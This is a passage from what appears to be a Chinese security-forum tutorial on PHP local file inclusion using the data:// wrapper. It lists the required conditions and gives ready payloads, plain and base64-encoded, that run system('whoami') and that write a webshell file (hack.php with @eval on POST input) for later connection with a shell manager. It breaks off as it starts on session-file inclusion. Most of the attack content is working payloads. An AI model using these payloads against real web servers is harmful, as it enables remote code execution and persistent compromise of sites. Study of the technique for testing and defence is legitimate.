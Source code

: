 `PD9waHAgcGhwaW5mbygpOz8+`的B ase64解码为：`<?php phpinfo();?>`。其中加号`+`的url编码为`%2b`。如果不手动url编码会报错：`Parse error:  syntax error, unexpected '?' in data:text/plain;B ase64,PD9waHAgcGhwaW5mbygpOz8  on line 1`

#### data://（命令执行）

利用条件：

1. php版本大于等于php5.2
2. allow\_url\_fopen = On
3. allow\_url\_include = On

姿势一：

```php
fileinclude.php?file=data:text/plain,<?php system('whoami');?>
```

姿势二：

```php
fileinclude.php?file=data:text/plain;B ase64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==
```

其中`PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==`的B ase64解码为：`<?php system('whoami');?>`

#### data://（写入木马）

利用条件：

1. php版本大于等于php5.2
2. allow\_url\_fopen = On
3. allow\_url\_include = On

姿势一：

```php
fileinclude.php?file=data:text/plain,<?php fputs(fopen('hack.php','w'),'<?php @e val($_POST[v])?>');?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-933f60866a2bf293fc880afc7000f5fd071fddd9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-933f60866a2bf293fc880afc7000f5fd071fddd9.png)

用shell管理工具，比如蚁剑等便能成功连接。

姿势二：

```php
fileinclude.php?file=data:text/plain;B ase64,PD9waHAgZnB1dHMoZm9wZW4oJ2hhY2sucGhwJywndycpLCc8P3BocCBAZXZhbCgkX1BPU1Rbdl0pPz4nKTs/Pg==
```

其中`PD9waHAgZnB1dHMoZm9wZW4oJ2hhY2sucGhwJywndycpLCc8P3BocCBAZXZhbCgkX1BPU1Rbdl0pPz4nKTs/Pg==`的B ase64解码为：`<?php fputs(fopen('hack.php','w'),'<?php @e val($_POST[v])?>');?>`

包含session
---------

利用条件：session文件路径已知，且其中内容部分可控。
